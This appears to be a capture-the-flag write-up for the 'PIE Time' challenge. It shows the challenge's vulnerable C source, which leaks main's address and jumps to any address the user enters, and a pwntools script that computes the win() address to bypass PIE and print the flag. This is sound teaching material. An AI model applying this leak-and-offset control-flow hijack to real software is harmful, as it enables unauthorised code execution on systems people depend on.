 # PIE Time Challenge Solution

## Challenge Overview

"PIE Time" is a binary exploitation challenge where we need to bypass Position Independent Executable (PIE) protection to get the flag. PIE randomizes the base address of the binary at each execution, making it more difficult to predict where specific code will be located in memory.

## Understanding the Source Code (vuln.c)

Looking at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

The program has three key functions:
1. `segfault_handler()`: Catches any segmentation faults that occur
2. `win()`: Opens and prints the contents of "flag.txt" - this is our target
3. `main()`: Prints its own address, asks for an address input, then jumps to that address

## The Vulnerability

The vulnerability is straightforward: the program allows us to directly specify an address to jump to via function pointer. The challenge is that PIE randomizes the base address, so we don't know the absolute address of the `win()` function.

However, the program gives us a critical piece of information - it prints out the address of the `main()` function with `printf("Address of main: %p\n", &main);`

## Exploitation Strategy

With PIE enabled, while the absolute addresses change each run, the *relative offsets* between functions remain the same. This means:

1. If we know the runtime address of `main()` (which the program tells us)
2. And we know the offset between `main()` and `win()` (which we can get from the binary)
3. Then we can calculate the runtime address of `win()`

The formula is:
```
win_runtime_address = main_runtime_address + (win_offset - main_offset)
```

## Implementing the Exploit

The exploit.py script works as follows:

1. Connect to the program
2. Parse the output to get the runtime address of `main()`
3. Calculate the offset between `main()` and `win()` from the binary
4. Calculate the runtime address of `win()`
5. Send this address when prompted
6. Receive and print the flag

```python
from pwn import *

# Set up connection to the target
conn = remote('challenge-server', port) # or process('./vuln')

# Receive the output until we get the main address
conn.recvuntil('Address of main: ')
main_addr_str = conn.recvline().strip().decode()
main_addr = int(main_addr_str, 16)

# Known offsets from binary analysis (objdump output)
# main_offset would be the location of main in the binary
# win_offset would be the location of win in the binary
main_offset = 0x11e9  # This needs to be replaced with actual value from objdump
win_offset = 0x1169   # This needs to be replaced with actual value from objdump

# Calculate base address of the binary
base_addr = main_addr - main_offset

# Calculate runtime address of win()
win_addr = base_addr + win_offset

# Send the win address when prompted
conn.recvuntil('Enter the address to jump to, ex => 0x12345: ')
conn.sendline(hex(win_addr).encode())

# Get the flag
conn.interactive()
```

## Conclusion

This challenge demonstrates a key concept in bypassing PIE protection: when we have an address leak (in this case, the address of `main()`), we can calculate the base address of the binary and then find the addresses of other functions like `win()`. The relative offsets between functions remain constant even though the absolute addresses change with each execution.